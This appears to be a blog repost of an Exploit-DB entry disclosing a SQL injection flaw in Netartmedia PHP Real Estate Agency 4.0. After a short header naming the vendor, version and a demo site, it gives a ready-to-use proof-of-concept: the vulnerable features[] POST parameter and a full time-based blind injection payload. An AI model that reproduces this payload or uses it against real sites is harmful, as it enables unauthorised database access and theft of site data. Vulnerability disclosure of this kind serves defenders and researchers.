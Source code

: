 ```yaml
---
layout:     post
title:      "Netartmedia PHP Real Estate Agency 4.0 - SQL Injection"
date:       2019-03-20 12:01
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Netartmedia PHP Real Estate Agency 4.0 - SQL Injection
# Date: 19.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.netartmedia.net/propertyagency/
# Demo Site: https://www.phpscriptdemos.com/agency/
# Version: 4.0
# Tested on: Kali Linux
# CVE: N/A
# Description:PHP Real Estate Agency is a web software written in PHP
especially designed for real estate agencies to help create quickly
and launch their own websites with their listings and information on
it.
----- PoC SQLi -----

Request: http://localhost/[PATH]/index.php
Parameter: features[] (POST)
Payload: ad_type=&bathrooms=&bedrooms=&features[]=(select(0)from(select(sleep(0)))v)/*'%2B(select(0)from(select(sleep(0)))v)%2B'"%2B(select(0)from(select(sleep(0)))v)%2B"*/&field_location=1&listing_type=&location=&mod=search&only_pictures=1&order_by=date&pfield51_0=1&pfield51_1=1&pfield51_2=1&price_from=1&price_to=1&search_keyword=&search_type=search_form&size_from=1&size_to=1&type=1&zip=94102&zip_distance=94102&zip_radius=1&zip_type=1
